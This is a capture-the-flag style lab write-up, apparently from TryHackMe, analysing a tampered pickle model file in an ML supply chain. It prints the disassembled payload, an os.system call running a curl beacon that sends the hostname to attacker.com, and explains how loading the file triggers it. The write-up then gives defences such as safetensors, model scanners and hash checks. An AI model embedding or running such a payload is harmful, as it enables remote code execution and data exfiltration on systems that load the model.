




# AI Supply Chain Security: Malicious Model Deserialization & Attack Vector Analysis

> **Lab Context:** TryHackMe — AI Supply Chain Security Module
>
> **Analyst Environment:** `analyst@tryhackme-2204`
>
> **Target Scope:** `/opt/supply-chain/`
>
> **Classification:** Security Research / ML SecOps / Software Supply Chain Security
>
> **Status:** Completed & Validated

## Executive Summary

During a technical evaluation of the AI model pipeline within `/opt/supply-chain/`, an arbitrary code execution vulnerability (CWE-502: Deserialization of Untrusted Data) was identified in the model artifact `code_reviewer.pkl`.

Through static analysis, file integrity comparison, and opcode disassembly via `pickletools`, we isolated an embedded malicious payload. The payload leverages Python’s native `pickle` protocol to execute arbitrary shell commands automatically upon deserialization (`pickle.load()`), leading to Out-of-Band (OOB) data exfiltration of host metadata to an attacker-controlled endpoint (`attacker.com`).

This write-up provides a step-by-step technical walk-through of the discovery, opcode analysis, vulnerability mechanics, and recommended enterprise defense controls.

## Technical Overview & Metadata

| Field | Detail | 
| ----- | ----- | 
| **Vulnerable File** | `/opt/supply-chain/models/code_reviewer.pkl` | 
| **Baseline File** | `/opt/supply-chain/models/code_reviewer_v1.pkl` | 
| **Pickle Protocol** | Protocol 4 | 
| **Vulnerability Type** | Unsafe Deserialization (CWE-502) | 
| **Execution Trigger** | `REDUCE` Opcode (`R`) | 
| **Injected Function** | `os.system` | 
| **Injected Payload** | `curl http://attacker.com/beacon?host=$(hostname)` | 
| **Primary Impact** | Remote Code Execution (RCE) / System Host Information Disclosure | 

## Analysis Environment & Tooling

The target environment contains specialized ML security tooling pre-configured at `/opt/supply-chain/`:

* **`fickling`**: Python pickle decompilation, static analysis, and injection framework.

* **`modelscan`**: Machine learning model vulnerability and backdoor scanner.

* **`pip-audit`**: Dependency supply chain vulnerability scanner.

* **`syft`**: Software Bill of Materials (SBOM) generator.

* **`inspect_h5_model.py`**: Custom analyzer for Keras/HDF5 neural network models.

## Step-by-Step Proof of Concept & Execution Walkthrough

### Phase 1: Environment Reconnaissance & Enumeration

Initial inspection of the lab filesystem established the workspace structure and located all stored model artifacts.

```
# Verify user context and root lab directory
analyst@tryhackme-2204:~$ ls -la
analyst@tryhackme-2204:~$ ls -lh /opt
analyst@tryhackme-2204:~$ ls -lh /opt/supply-chain
analyst@tryhackme-2204:~$ ls -lh /opt/supply-chain/models

```



#### Directory Inventory (`/opt/supply-chain/`)

* `audit/` — Security scan output directory

* `dependencies/` — Project dependencies and packages

* `incident/` — Incident response artifacts

* `models/` — Machine learning model store

* `project/` — Application source code

* `tools/` — Lab analysis scripts

#### Model Inventory Listing (`/opt/supply-chain/models/`)

```
total 12M
-rw-xr-x 1 analyst analyst  297 Apr  8  2026 checksums.json
-rw-xr-x 1 analyst analyst 8.1M Apr  8  2026 code_reviewer.pkl
-rw-xr-x 1 analyst analyst 2.0M Apr  8  2026 code_reviewer_v1.pkl
-rw-xr-x 1 analyst analyst 787K Apr  8  2026 image_classifier.h5
-rw-xr-x 1 analyst analyst 788K Apr  8  2026 image_classifier_v2.h5
-rw-xr-x 1 analyst analyst   81 Apr  8  2026 model_review_v2.pkl

```

### Phase 2: Anomaly Identification via File Inspection

Comparing the legacy model (`code_reviewer_v1.pkl`) against the primary model (`code_reviewer.pkl`) revealed a significant size discrepancy.

```
analyst@tryhackme-2204:~$ ls -lh /opt/supply-chain/models/code_reviewer_v1.pkl
-rw-xr-x 1 analyst analyst 2.0M Apr  8  2026 /opt/supply-chain/models/code_reviewer_v1.pkl

analyst@tryhackme-2204:~$ ls -lh /opt/supply-chain/models/code_reviewer.pkl
-rw-xr-x 1 analyst analyst 8.1M Apr  8  2026 /opt/supply-chain/models/code_reviewer.pkl

analyst@tryhackme-2204:~$ ls -lh /opt/supply-chain/models/code_reviewer_v1.pkl /opt/supply-chain/models/code_reviewer.pkl
-rw-xr-x 1 analyst analyst 8.1M Apr  8  2026 /opt/supply-chain/models/code_reviewer.pkl
-rw-xr-x 1 analyst analyst 2.0M Apr  8  2026 /opt/supply-chain/models/code_reviewer_v1.pkl

```



**Observation:** `code_reviewer.pkl` expanded from **2.0 MB to 8.1 MB**, flagging it as a candidate for deeper binary analysis.

### Phase 3: Binary Format Identification

To ensure these files were standard binary streams rather than plain text scripts, the `file` utility was executed.

```
analyst@tryhackme-2204:~$ file /opt/supply-chain/models/code_reviewer_v1.pkl /opt/supply-chain/models/code_reviewer.pkl
/opt/supply-chain/models/code_reviewer_v1.pkl: data
/opt/supply-chain/models/code_reviewer.pkl:    data

```



Both files were identified as generic `data` byte streams, confirming standard binary serialization structures.

### Phase 4: Opcode Disassembly & Vulnerability Proof

Python’s built-in `pickletools` module was used to disassemble the serialized opcode stack of both pickle files.

```
python3 -m pickletools /opt/supply-chain/models/code_reviewer.pkl

```



#### Disassembly Output & Evidence

```
0: \x80 PROTO      4
2: \x95 FRAME      72
11: \x8c SHORT_BINUNICODE 'os'
15: \x94 MEMOIZE    (as 0)
16: \x8c SHORT_BINUNICODE 'system'
24: \x94 MEMOIZE    (as 1)
25: \x93 STACK_GLOBAL
26: \x94 MEMOIZE    (as 2)
27: \x8c SHORT_BINUNICODE 'curl http://attacker.com/beacon?host=$(hostname)'
77: \x94 MEMOIZE    (as 3)
78: \x85 TUPLE1
79: \x94 MEMOIZE    (as 4)
80: R   REDUCE
81: \x94 MEMOIZE    (as 5)
82: .   STOP
highest protocol among opcodes = 4

```

## Detailed Vulnerability Mechanics

1. **Protocol Initialization (`PROTO 4`):** Sets the pickle serialization frame protocol.

2. **Global Import (`STACK_GLOBAL`):** Resolves the target package and module function, specifically `os.system`.

3. **String Construction (`SHORT_BINUNICODE`):** Pushes the shell command string into the stack memory memoize register:

   ```
   curl http://attacker.com/beacon?host=$(hostname)
   
   ```

4. **Tuple Enclosure (`TUPLE1`):** Packages the string argument into a tuple required for function execution.

5. **Execution Trigger (`REDUCE` opcode `R`):** Calls the top function on the stack (`os.system`) passing the argument tuple. This executes instantly when `pickle.load()` is run by any service or developer.

```
       +-------------------------------------------------------+
       |                  pickle.load()                        |
       +-------------------------------------------------------+
                                   |
                                   v
       +-------------------------------------------------------+
       |            STACK_GLOBAL: Import os.system             |
       +-------------------------------------------------------+
                                   |
                                   v
       +-------------------------------------------------------+
       | Push Argument: "curl http://attacker.com/beacon?..."  |
       +-------------------------------------------------------+
                                   |
                                   v
       +-------------------------------------------------------+
       |  Opcode 'R' (REDUCE) --> os.system(payload) Executed   |
       +-------------------------------------------------------+
                                   |
                                   v
       +-------------------------------------------------------+
       |   Out-of-Band Exfiltration to attacker.com Triggered  |
       +-------------------------------------------------------+

```

## Risk Assessment

| Criteria | Assessment | 
| ----- | ----- | 
| **Severity** | **Critical (CVSS 9.8)** | 
| **Attack Vector** | Network / Supply Chain Ingestion | 
| **Privileges Required** | None (Executes under user context running model inference/training) | 
| **User Interaction** | Low (Automatic upon standard ML model loading) | 
| **Impact** | Full Confidentiality, Integrity, and Availability Loss | 

## Defensive Countermeasures & Remediation

### 1. Shift to Safe Serialization Formats

* **Safetensors (`.safetensors`):** Migrate away from standard `.pkl` files. Safetensors restricts operations exclusively to safe tensor data parsing without executing arbitrary code paths.

* **ONNX (Open Neural Network Exchange):** Use standardized format representations for cross-platform model deployment.

### 2. Implement CI/CD Model Scanning Controls

Integrate automated scanners in the model ingestion pipeline to flag unsafe opcodes (`GLOBAL`, `REDUCE`, `BUILD`, `EXEC`):

```
# Scan models automatically using fickling or modelscan
fickling --check /path/to/model.pkl
modelscan -p /path/to/model.pkl

```

### 3. Cryptographic Verification & Hash Check

Enforce hash checks against `/opt/supply-chain/models/checksums.json` before allowing model initialization in application code:

```
import hashlib
import json

def verify_model_integrity(model_path, checksum_file):
    with open(checksum_file, 'r') as f:
        checksums = json.load(f)
    
    hasher = hashlib.sha256()
    with open(model_path, 'rb') as f:
        hasher.update(f.read())
        
    calculated_hash = hasher.hexdigest()
    expected_hash = checksums.get(model_path)
    
    if calculated_hash != expected_hash:
        raise ValueError("CRITICAL: Model hash mismatch! Potential tampering detected.")
    return True

```

## Conclusion

The practical exercise demonstrates how supply chain actors can easily weaponize ML model repositories by inserting arbitrary code execution payloads into pickle binary objects. Adopting safe serialization standards, mandatory hash verification, and static opcode analysis effectively mitigates this vulnerability vector.
